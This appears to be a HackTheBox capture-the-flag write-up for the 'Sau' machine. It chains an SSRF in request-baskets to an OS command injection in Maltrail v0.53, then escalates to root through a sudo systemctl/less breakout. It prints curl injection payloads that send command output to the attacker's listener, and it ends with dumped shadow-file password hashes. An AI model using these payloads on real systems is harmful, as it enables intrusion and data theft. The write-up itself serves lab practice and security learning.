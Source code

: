 ```yaml
---
title: Sau [HackTheBox]
layout: post
tags: linux htb
---
```


*A shopping basket?*

## Recon

Running nmap full scan have shown three running services

```
PORT      STATE    SERVICE        VERSION
22/tcp    open     ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
55555/tcp open unknown
```

At first, my instusive thoughts had nagged me to visit http/80 but I got no response, so I switched to the other web service and received this

![image](assets/new-basket-sau-2023-07-23.png)

A webhook creation service powered by [request-baskets](https://github.com/darklynx/request-baskets), which also appears to be outdated, running on version **1.2.1**.

## Finding a vulnerability

Request Baskets has a wonderful feature that allows a user to forward a URL from a hook. You guessed it, this is a SSRF. That means we could finally get a response from internal web service running on port 80.

![ssrf](assets/ssrf-sau-2023-07-23.png)

Applying new configuration and visiting the hook gets us this ugly looking leftover of a page.

![mailtrail](assets/mailtrail-sau-2023-07-23.png)

 Since nothing on this page is interactable besides hyperlinks it would be a good idea to check them out. Lets look for vulnerabilities for the running version of Maltrail (v0.53). Opening `CHANGELOG.md` on github [project page](https://github.com/stamparm/maltrail) we can spot that v0.53 has an OS command injection vulnerability to abuse. That is a good start.

![changelog](assets/changelog-sau-2023-07-23.png)

Following the trail we get to this [page](https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/) containing POC.

It is straightforward from here how to get an actual user flag. Changing forward URL of our webhook to `http://127.0.0.1:80/login` and chaining curl command we get this payload


```
curl http://10.10.11.224:55555/o59waz0 --data 'username=;`curl 10.10.14.33:1337 --data $(whoami)`'
curl http://10.10.11.224:55555/o59waz0 --data 'username=;`curl 10.10.14.33:1337 --data $(cat /home/puma/user.txt)`'
```

Running it makes netcat receive the user flag: **925de45f95916d0511f7XXXXXXXXXXXX**

## Getting the root user

Now off to the hard part. Using python reverse shell code we get an access to the system under a `puma` user.

Checking sudo commands via `sudo -l` gives us

```console
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Bingo. No password sudo command. If we run it we get a `less` output of a Maltrail log. If you did not know, less can be [abused](https://gtfobins.github.io/gtfobins/less/) to break out of restricted environments. Typing `!/bin/sh` in a less prompt got me a root shell, thus bringing me to the final flag: **05bdb094a8b2d5443XXXXXXXXXXXXXXX**

## Shadow file

```
root:$6$4IguUssRBYl3/LvG$MfnFD1Y9saTrvw2OqA1VtqKxa7TsDt1kb2qsJw6inQ8GfmnqIrh32eqk9IMO4UR3fYG.TzbJeiFd7UOu1QlGR0:19461:0:99999:7:::
puma:$6$eB4LwfQg7IgQC38d$SktdHbU0gQAh0.BoRY36FHreH6xR073oHdRrk6hmvar4eZTnmkfxbUxsMBsaZMRm9XHYQF9hG4l5v6fefYdic/:19461:0:99999:7:::
```

## Conclusion

Chaining exploits can be an effective way to create an ultimately stronger attack, as proven in this machine. Although, try to not be carried away by trying to fit every piece of the puzzle.
